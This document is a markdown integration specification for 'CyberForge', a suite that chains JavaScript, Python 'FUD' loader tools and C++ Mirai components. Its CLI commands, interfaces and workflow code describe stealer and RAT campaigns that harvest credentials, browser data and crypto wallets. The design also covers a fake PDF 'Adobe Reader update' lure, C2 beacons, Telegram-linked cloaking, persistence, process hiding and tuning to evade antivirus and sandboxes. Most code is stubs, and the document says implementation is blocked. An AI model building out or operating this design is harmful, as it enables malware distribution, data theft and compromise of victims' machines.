

# CyberForge Security Suite - Integration Specifications

## 🎯 Overview

This document defines the comprehensive integration architecture for the CyberForge Advanced Security Suite, specifying interfaces, data flows, and orchestration protocols between JavaScript engines, Python FUD tools, and C++ Mirai components.

## 🏗️ Integration Architecture

### System Architecture Diagram

```
┌─────────────────────────────────────────────────────────────────────┐
│                    CyberForge Master CLI                            │
│                     (master-cli.js)                                 │
└─────────────────┬───────────────────────────────────────────────────┘
                  │
        ┌─────────┴─────────┐
        │                   │
┌───────▼────────┐ ┌───────▼───────┐
│ JavaScript Core│ │ Integration   │
│ Engine Layer   │ │ Orchestrator  │
└───────┬────────┘ └───────┬───────┘
        │                  │
        │         ┌────────▼────────┐
        │         │ Python FUD      │
        │         │ Tools Layer     │
        │         └────────┬────────┘
        │                  │
        │         ┌────────▼────────┐
        │         │ C++ Mirai       │
        │         │ System Layer    │
        │         └─────────────────┘
        │
┌───────▼────────┐
│ ML Detection   │
│ & Analysis     │
└────────────────┘
```

## 🔗 Interface Specifications

### 1. Master CLI Interface

#### Entry Point: `master-cli.js`
```javascript
// Primary interface for all system operations
class MasterCLI {
  // Campaign execution
  executeIntegratedCampaign(config: CampaignConfig): Promise<CampaignResult>
  
  // Quick operations
  quickStealerCampaign(options: QuickOptions): Promise<CampaignResult>
  quickRATDeployment(options: QuickOptions): Promise<CampaignResult>
  
  // Individual tool access
  accessPythonTools(tool: string, args: string[]): Promise<ToolResult>
  accessWeaponizedSystem(config: WeaponizedConfig): Promise<PayloadResult>
  accessFUDEngine(config: FUDConfig): Promise<FUDResult>
}
```

#### Command Interface Specification
```bash
# Campaign Commands
node master-cli.js campaign --target <target> --evasion-level <level>
node master-cli.js quick-stealer --loader-formats exe,msi --cloaking-port 8080
node master-cli.js quick-rat --persistence registry,service --telegram-token <token>

# Tool Access Commands  
node master-cli.js python-tools fud_loader --payload payload.exe --format all
node master-cli.js weaponized --target windows-x64-stealer --polymorphic
node master-cli.js fud-engine --anti-vm --process-injection
```

### 2. JavaScript-Python Integration Bridge

#### Interface: `IntegratedFUDToolkit` Class
```javascript
// Located: engines/integrated/integrated-fud-toolkit.js
class IntegratedFUDToolkit {
  
  // Python tool execution interface
  async executePythonTool(toolName: string, args: ToolArgs): Promise<ToolResult> {
    // Spawn Python process with proper error handling
    // Handle tool output and return structured result
  }
  
  // Workflow orchestration
  async executeWorkflow(workflowName: string, config: WorkflowConfig): Promise<WorkflowResult> {
    // Multi-step workflow execution
    // Coordinate JavaScript and Python components
  }
  
  // Data exchange interface  
  async transferPayloadData(jsPayload: PayloadData): Promise<PythonCompatibleData> {
    // Convert JavaScript payload format to Python-compatible format
    // Handle binary data encoding and metadata transfer
  }
}
```

#### Python Tool Interface Specification
```python
# Standard interface for all Python FUD tools
class FUDToolInterface:
    def execute(self, args: Dict[str, Any]) -> ToolResult:
        """Standard execution interface"""
        pass
    
    def get_capabilities(self) -> List[str]:
        """Return list of tool capabilities"""
        pass
    
    def validate_input(self, args: Dict[str, Any]) -> bool:
        """Validate input parameters"""
        pass
```

### 3. Python-C++ Integration Interface

#### C++ Component Loading
```python
# Python interface for C++ component execution
class MiraiComponentInterface:
    def __init__(self, component_path: str):
        self.component_path = component_path
        self.process_handle = None
    
    def load_component(self, config: ComponentConfig) -> bool:
        """Load and initialize C++ component"""
        pass
    
    def execute_with_payload(self, payload: bytes) -> ExecutionResult:
        """Execute C++ component with payload"""
        pass
    
    def monitor_execution(self) -> ExecutionStatus:
        """Monitor C++ component execution"""
        pass
```

#### C2 Communication Protocol
```c
// C++ beacon interface for Python coordination
typedef struct {
    char* c2_server;
    int beacon_interval;
    char* payload_id;
    int execution_status;
} BeaconConfig;

// Function exports for Python integration
extern "C" {
    int initialize_beacon(BeaconConfig* config);
    int execute_payload(unsigned char* payload, size_t payload_size);
    int report_status(char* status_json);
}
```

## 📊 Data Flow Specifications

### 1. Payload Generation Workflow



#### Data Structures

```typescript
// Payload configuration interface
interface PayloadConfig {
  target: string;                 // Target system/application
  architecture: 'x86' | 'x64';   // Target architecture
  platform: 'windows' | 'linux'; // Target platform
  evasionLevel: 'basic' | 'advanced' | 'maximum';
  persistence: boolean;
  antiAnalysis: boolean;
  encryptionLevel: number;
  polymorphicVariants: number;
  deliveryMethods: string[];
}

// Payload result interface
interface PayloadResult {
  success: boolean;
  payloadId: string;
  outputFiles: {
    primary: string;
    loaders: string[];
    metadata: string;
  };
  characteristics: {
    fileSize: number;
    entropy: float;
    detectionRate: number;
    evasionScore: number;
  };
  integrationData: {
    pythonCompatible: boolean;
    cppCompatible: boolean;
    deploymentReady: boolean;
  };
}
```

### 2. Campaign Orchestration Data Flow

```typescript
// Campaign configuration
interface CampaignConfig {
  campaignType: 'stealer' | 'rat' | 'enterprise-test' | 'red-team';
  targets: string[];
  deliveryMethods: string[];
  persistenceMethods: string[];
  monitoringConfig: {
    cloakingEnabled: boolean;
    telegramIntegration: boolean;
    geoFiltering: boolean;
  };
  timeframe: {
    startTime: Date;
    duration: number;
    beaconInterval: number;
  };
}

// Campaign execution result
interface CampaignResult {
  campaignId: string;
  status: 'running' | 'completed' | 'failed';
  components: {
    jsPayload: PayloadResult;
    pythonLoaders: LoaderResult[];
    cppBeacons: BeaconResult[];
  };
  monitoring: {
    activeTargets: number;
    successfulDeployments: number;
    detectionEvents: number;
    c2Communications: number;
  };
  timeline: ExecutionEvent[];
}
```

### 3. ML Integration Data Flow

```typescript
// ML analysis interface
interface MLAnalysisRequest {
  targetData: Buffer;        // File/payload to analyze
  analysisType: 'detection' | 'evasion-optimization';
  modelType: 'lightweight' | 'production';
  threshold: number;
}

interface MLAnalysisResult {
  malwareScore: number;      // 0.0 - 1.0
  confidence: number;        // Confidence level
  features: {
    entropy: number;
    suspiciousImports: string[];
    behavioralIndicators: string[];
    packerSignatures: string[];
  };
  evasionSuggestions?: {
    entropyOptimization: number;
    importObfuscation: string[];
    behaviorMasking: string[];
  };
}
```

## 🔧 Component Integration Protocols

### 1. JavaScript Engine Integration

#### Advanced Payload Builder Integration
```javascript
// Integration with FUD toolkit
class PayloadBuilderIntegration {
  constructor(fudToolkit) {
    this.fudToolkit = fudToolkit;
    this.encryptionEngine = new AdvancedEncryptionEngine();
    this.polymorphicEngine = new PolymorphicEngine();
  }
  
  async buildIntegratedPayload(config) {
    // Step 1: Generate base payload (JavaScript)
    const basePayload = await this.generateBasePayload(config);
    
    // Step 2: Apply polymorphic transforms (JavaScript)
    const polymorphicPayload = await this.polymorphicEngine.transform(basePayload);
    
    // Step 3: Transfer to Python FUD tools
    const pythonCompatibleData = await this.convertForPython(polymorphicPayload);
    
    // Step 4: Generate FUD loaders (Python)
    const fudLoaders = await this.fudToolkit.generateLoaders(pythonCompatibleData);
    
    // Step 5: Package final result
    return this.packageResult(basePayload, fudLoaders);
  }
}
```

### 2. Python FUD Tool Integration

#### Enhanced FUD Loader Integration
```python
class FUDLoaderIntegration:
    def __init__(self):
        self.loader_generator = FUDLoader()
        self.payload_builder = AdvancedPayloadBuilder()
        self.supported_formats = ['exe', 'msi', 'ps1', 'dll', 'service']
    
    def process_js_payload(self, js_payload_data: dict) -> dict:
        """Process payload from JavaScript engine"""
        
        # Extract payload binary and metadata
        payload_binary = base64.b64decode(js_payload_data['payload_base64'])
        metadata = js_payload_data['metadata']
        
        # Generate all supported loader formats
        results = {}
        for format_type in self.supported_formats:
            if format_type in ['exe', 'msi', 'ps1']:
                # Use enhanced FUD loader
                result = self.loader_generator.build_loader(
                    payload_binary, 
                    format_type,
                    anti_vm=metadata.get('anti_vm', True),
                    obfuscation=metadata.get('obfuscation', True)
                )
            else:
                # Use advanced payload builder
                config = PayloadConfig(
                    output_format=format_type,
                    evasion_level=metadata.get('evasion_level', 'advanced'),
                    anti_vm=metadata.get('anti_vm', True)
                )
                self.payload_builder.config = config
                result = self.payload_builder.build_payload(payload_binary)
            
            results[format_type] = result
        
        return results
```

### 3. C++ Component Integration

#### Hybrid Loader Integration Protocol
```c++
// Integration interface for hybrid loader
class HybridLoaderIntegration {
private:
    char* pythonPayloadPath;
    char* jsConfigPath;
    BeaconConfig beaconConfig;
    
public:
    // Initialize with Python-generated payload
    int initializeWithPythonPayload(const char* payloadPath) {
        this->pythonPayloadPath = _strdup(payloadPath);
        return loadPayloadFromFile(payloadPath);
    }
    
    // Configure from JavaScript metadata
    int configureFromJSMetadata(const char* configPath) {
        this->jsConfigPath = _strdup(configPath);
        return parseJSConfig(configPath, &this->beaconConfig);
    }
    
    // Execute integrated workflow
    int executeIntegratedWorkflow() {
        // Load Python-generated payload
        unsigned char* payload = loadEncryptedPayload(this->pythonPayloadPath);
        if (!payload) return -1;
        
        // Apply C++ stealth techniques
        hideProcess();
        installPersistence();
        
        // Execute payload with monitoring
        int result = executePayloadWithMonitoring(payload);
        
        // Report back to Python coordinator
        reportExecutionStatus(result);
        
        return result;
    }
};
```

## 🔄 Workflow Orchestration

### 1. Advanced Stealer Campaign Workflow

```javascript
// Complete stealer campaign orchestration
async function executeStealerCampaign(config) {
  const workflow = [
    {
      step: 'generate-weaponized-stealer',
      component: 'WeaponizedPayloadSystem',
      method: 'generateStealer',
      params: {
        target: 'windows-x64-stealer',
        capabilities: ['credential-harvesting', 'browser-data-extraction', 'crypto-wallet-theft']
      }
    },
    {
      step: 'create-fud-loader',
      component: 'IntegratedFUDToolkit', 
      method: 'executePythonTool',
      params: {
        tool: 'fud_loader',
        formats: ['exe', 'msi', 'ps1'],
        anti_detection: true
      }
    },
    {
      step: 'spoof-registry-file',
      component: 'IntegratedFUDToolkit',
      method: 'executePythonTool', 
      params: {
        tool: 'reg_spoofer',
        target_extension: '.pdf',
        popup_text: 'Document requires Adobe Reader update'
      }
    },
    {
      step: 'setup-cloaking-tracker',
      component: 'IntegratedFUDToolkit',
      method: 'executePythonTool',
      params: {
        tool: 'cloaking_tracker',
        port: 8080,
        telegram_integration: true
      }
    },
    {
      step: 'deploy-campaign',
      component: 'HybridLoader',
      method: 'executeIntegratedWorkflow',
      params: {
        beacon_interval: 60,
        persistence_method: 'registry'
      }
    }
  ];
  
  return await executeWorkflowSteps(workflow);
}
```

### 2. Error Handling and Recovery

```typescript
// Workflow error handling specification
interface WorkflowError {
  step: string;
  component: string;
  error: string;
  recoverable: boolean;
  suggestedAction: string;
}

class WorkflowErrorHandler {
  handleComponentFailure(error: WorkflowError): Promise<WorkflowRecovery> {
    switch (error.component) {
      case 'WeaponizedPayloadSystem':
        // Fallback to basic payload generation
        return this.fallbackToBasicPayload();
        
      case 'PythonFUDTool':
        // Retry with alternative Python tool or JavaScript equivalent
        return this.retryWithAlternativeMethod();
        
      case 'CppComponent':
        // Skip C++ integration, use Python-only workflow
        return this.fallbackToPythonOnly();
        
      default:
        return this.escalateError(error);
    }
  }
}
```

## 🔐 Security Integration Specifications

### 1. Cross-Component Encryption

```typescript
// Secure data exchange protocol
interface SecureExchangeProtocol {
  // Encrypt data for cross-component transfer
  encryptForTransfer(data: Buffer, targetComponent: string): Promise<EncryptedTransfer>;
  
  // Decrypt received data
  decryptFromTransfer(encryptedData: EncryptedTransfer): Promise<Buffer>;
  
  // Verify component authenticity
  verifyComponentSignature(component: string, signature: string): boolean;
}

interface EncryptedTransfer {
  data: Buffer;           // Encrypted payload data
  key: Buffer;           // Encrypted key (asymmetric)
  iv: Buffer;            // Initialization vector
  algorithm: string;     // Encryption algorithm used
  componentSignature: string; // Source component signature
  timestamp: number;     // Transfer timestamp
}
```

### 2. Anti-Detection Coordination

```typescript
// Coordinated anti-detection across components
interface AntiDetectionCoordinator {
  // Synchronize evasion techniques across all components
  synchronizeEvasionTechniques(techniques: EvasionTechnique[]): Promise<void>;
  
  // Monitor detection events and adapt
  adaptToDetectionEvent(event: DetectionEvent): Promise<AdaptationResult>;
  
  // Coordinate timing to avoid pattern detection
  coordinateExecutionTiming(components: string[]): Promise<TimingPlan>;
}

interface EvasionTechnique {
  name: string;
  component: string;      // Which component implements this technique
  parameters: any;        // Technique-specific parameters
  effectiveness: number;  // Measured effectiveness (0.0-1.0)
  compatibility: string[]; // Compatible with which other techniques
}
```

## 📋 Deployment Specifications

### 1. Environment Requirements

```yaml
# Deployment environment specification
environment_requirements:
  nodejs:
    version: ">=16.0.0"
    modules:
      - es6_modules_support: true
      - package_type: "module"
      
  python:
    version: ">=3.8.0"
    modules:
      - Flask: ">=3.0.0"
      - pycryptodome: ">=3.19.0"
      - PyInstaller: ">=4.0.0"
      - psutil: ">=5.0.0"
      - wmi: ">=1.5.0"
      
  cpp:
    compiler: "MinGW-w64 or MSVC"
    build_system: "CMake >=3.10"
    libraries:
      - Windows SDK
      - WinSock2
      - WinInet
      
  external_tools:
    wix_toolset: ">=3.11"
    cmake: ">=3.10"
```

### 2. Integration Testing Protocol

```typescript
// Comprehensive integration testing specification
interface IntegrationTest {
  testSuite: string;
  components: string[];
  testCases: TestCase[];
}

interface TestCase {
  name: string;
  description: string;
  preconditions: string[];
  steps: TestStep[];
  expectedResult: string;
  actualResult?: string;
  status: 'pass' | 'fail' | 'skip';
}

// Example integration tests
const integrationTests: IntegrationTest[] = [
  {
    testSuite: 'JavaScript-Python Integration',
    components: ['IntegratedFUDToolkit', 'FUDLoader'],
    testCases: [
      {
        name: 'JS-to-Python Payload Transfer',
        description: 'Test payload transfer from JavaScript to Python tools',
        preconditions: ['Python environment functional', 'FUD tools available'],
        steps: [
          { action: 'Generate payload in JavaScript', expected: 'Payload created' },
          { action: 'Transfer to Python FUD tool', expected: 'Transfer successful' },
          { action: 'Generate loader in Python', expected: 'Loader created' },
          { action: 'Verify loader integrity', expected: 'Integrity confirmed' }
        ],
        expectedResult: 'End-to-end payload processing successful'
      }
    ]
  }
];
```

## 🎯 Integration Success Metrics

### 1. Performance Metrics

```typescript
interface IntegrationMetrics {
  // Component interaction performance
  componentLatency: {
    jsToPayloadGeneration: number;     // ms
    pythonToolExecution: number;       // ms
    cppComponentLoading: number;       // ms
    endToEndWorkflow: number;          // ms
  };
  
  // Data transfer efficiency  
  dataTransferMetrics: {
    payloadSizeOptimization: number;   // % size reduction
    compressionRatio: number;          // compression efficiency
    encryptionOverhead: number;        // % overhead from encryption
  };
  
  // Success rates
  reliabilityMetrics: {
    componentUptime: number;           // % uptime per component
    workflowSuccessRate: number;       // % successful workflows
    errorRecoveryRate: number;         // % recoverable errors
  };
}
```

### 2. Security Metrics

```typescript
interface SecurityMetrics {
  // Evasion effectiveness
  evasionMetrics: {
    avDetectionRate: number;           // % payloads detected by AV
    sandboxEvasionRate: number;        // % successful sandbox evasion
    vmDetectionAccuracy: number;       // % accurate VM detection
  };
  
  // Component security
  componentSecurity: {
    communicationEncryption: boolean;   // All inter-component communication encrypted
    payloadIntegrity: boolean;         // Payload integrity maintained
    componentAuthentication: boolean;   // All components properly authenticated
  };
}
```

## 📚 API Documentation

### 1. Master CLI API

```bash
# Complete API reference for master CLI
cyberforge --help                     # Show all available commands

# Campaign operations
cyberforge campaign start             # Start new campaign
cyberforge campaign status <id>       # Check campaign status  
cyberforge campaign stop <id>         # Stop running campaign

# Quick operations
cyberforge quick-stealer              # Quick stealer deployment
cyberforge quick-rat                  # Quick RAT deployment
cyberforge enterprise-test            # Enterprise penetration test

# Tool access
cyberforge python <tool> <args>       # Execute Python FUD tool
cyberforge weaponized <config>        # Generate weaponized payload
cyberforge ml-analyze <file>          # Analyze file with ML

# Integration operations
cyberforge integrate test             # Test all integrations
cyberforge integrate status           # Check integration health
cyberforge integrate repair           # Repair broken integrations
```

### 2. Programming API

```typescript
// Complete programming interface
import { CyberForgeIntegration } from './integration/cyberforge-integration.js';

const cyberforge = new CyberForgeIntegration();

// Initialize all components
await cyberforge.initialize({
  components: ['javascript', 'python', 'cpp'],
  enableML: true,
  enableAntiDetection: true
});

// Execute integrated workflow
const result = await cyberforge.executeWorkflow('advanced-stealer', {
  target: 'windows-x64',
  evasionLevel: 'maximum',
  persistence: true,
  monitoring: true
});

// Monitor execution
const status = await cyberforge.monitorExecution(result.workflowId);
```

## 🔮 Future Integration Enhancements

### Phase 1: Environment Stabilization
- Resolve Node.js execution hanging issues
- Fix Python installation corruption
- Install complete build toolchain

### Phase 2: Advanced Integration
- Real-time component communication
- Distributed execution across multiple systems
- Advanced ML integration with feedback loops

### Phase 3: AI-Enhanced Operations  
- ML-guided payload optimization
- Automated evasion technique selection
- Intelligent campaign adaptation

### Phase 4: Cloud Integration
- Distributed campaign management
- Cloud-based component execution
- Advanced monitoring and analytics

---

**Integration Status**: Architecture designed, specifications complete, implementation blocked by environment issues.

**Ready for Implementation**: Upon resolution of Node.js hanging, Python corruption, and build tool installation.